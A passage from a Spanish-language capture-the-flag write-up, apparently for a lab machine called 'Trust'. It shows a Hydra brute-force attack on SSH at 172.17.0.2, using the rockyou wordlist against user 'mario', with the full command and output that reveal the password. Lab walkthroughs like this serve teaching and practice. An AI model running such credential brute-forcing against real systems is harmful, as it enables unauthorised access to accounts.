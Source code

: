 ![Trust 3](/assets/images/2024-05-28-Trust/trust_3.png)

## Explotación de vulnerabilidades

Tras hacer varias pruebas y ver que no consigo nada con la web, intento atacar al puerto ssh. Utilizo el usuario Mario que se menciona, por si existe en el sistema.

```shell
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2                                                                     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-28 11:29:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/

[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-28 11:29:14
```
